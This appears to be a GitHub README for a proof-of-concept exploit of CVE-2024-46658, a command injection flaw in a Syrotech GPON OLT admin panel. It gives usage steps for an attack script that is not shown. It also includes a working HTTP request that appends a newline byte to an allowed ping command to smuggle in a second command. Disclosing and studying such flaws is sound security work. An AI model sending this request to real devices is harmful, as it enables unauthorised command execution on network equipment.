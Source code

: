 
# CVE-2024-46658

Syrotech SY-GOPON-8OLT-L3 v1.6.0_240629 Command Injection Vulnerability

# Usage

1- Edit the URL in the script.

2- Edit the Cookie_Login value in the script.

3- Run the script, it will allow you to executing commands.

# Vulnerability Details

GET /cgi/home.php?fun=system&page=shellCMDExec&isajax=1&runtab=1&cmdExec=1&command=ping%208.8.8.8%20-c%204%0aid&random=1725991418844 HTTP/1.1

Normally, only the ping command is allowed to be executed in the administration panel.

<img src="https://github.com/jackalkarlos/CVE-2024-46658/blob/main/imgs/1.png?raw=true">

If you intercept the request with a proxy, add a new line byte to the end of the command parameter and type the command you want to run, it will allow you to run another command.

<img src="https://github.com/jackalkarlos/CVE-2024-46658/blob/main/imgs/2.png?raw=true">

# Authors

Mehmet Demir


